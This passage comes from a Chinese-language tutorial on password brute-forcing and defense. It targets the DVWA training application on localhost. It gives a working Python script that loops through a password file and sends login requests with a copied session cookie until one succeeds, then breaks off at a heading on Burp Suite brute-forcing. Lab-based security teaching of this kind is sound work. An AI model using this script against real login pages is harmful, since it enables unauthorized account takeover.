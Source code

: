 并且我们是要爆破网站登录之后的密码登录，所以也需要复制cookie,否则在python脚本密码暴力破解的过程中会弹回出dvwa的主页。

![image-20240909123424345](密码暴力破解与防御/image-20240909123424345.png)	

python密码暴力破解脚本。

```python
# -*- coding: utf-8 -*-
# python 3

import requests
# 如果第一个密码就提示成功，是 PHPSESSID 没有替换的问题
pwds = open("password.txt")
for pwd in pwds:
    url = "http://127.0.0.1/dvwa/vulnerabilities/brute/"
    # PHPSESSID务必替换为登录以后的PHPSESSID
    #根据f12抓包的参数填写对应参数，并且要把cookie复制到对应的headers头部中。
    resp = requests.get(url = url, params = {"username":"admin", "password":pwd.strip(), "Login":"Login"}, headers = {"Cookie":"security=low; PHPSESSID=aj0lre9888q49m70icps95dl63"})
    if 'Username and/or password incorrect.' in resp.text:
        print('破解失败：'+pwd, end='')
    else:
        print('破解成功：'+pwd, end='')
        break;
pwds.close()

```

最后密码爆破成功。

![image-20240909123830148](密码暴力破解与防御/image-20240909123830148.png)	

### bp暴力破解

